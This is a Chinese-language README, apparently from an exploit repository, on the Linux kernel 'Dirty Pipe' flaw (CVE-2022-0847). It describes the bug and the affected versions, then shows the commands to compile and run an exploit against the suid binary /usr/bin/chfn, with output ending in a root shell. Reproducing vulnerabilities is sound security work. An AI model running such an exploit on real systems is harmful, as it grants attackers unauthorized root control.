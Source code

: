 漏洞介绍:  
此漏洞发现在Linux内核版本5.10.101/5.15.24/5.16.10，并归类为严重漏洞。攻击者通过利用此漏洞可覆盖重写任意可读文件中的数据，从而可将普通权限的用户提升到特权 root。 
CVE-2022-0847的漏洞原理类似于CVE-2016-5195脏牛漏洞（Dirty Cow），但它更容易被利用。漏洞作者将此漏洞命名为“Dirty Pipe”。

影响范围:  
5.8 <= Linux 内核版本 < 5.16.11 / 5.15.25 / 5.10.102

复现:  
$ uname -a  
Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 GNU/Linux

gcc -o exp cve-2022-0847.c

chmod +x exp

./exp /usr/bin/chfn  
[+] hijacking suid binary..  
[+] dropping suid shell..  
[+] restoring suid binary..  
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))  
#id  
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),133(scanner),141(kaboxer),1000(kali)
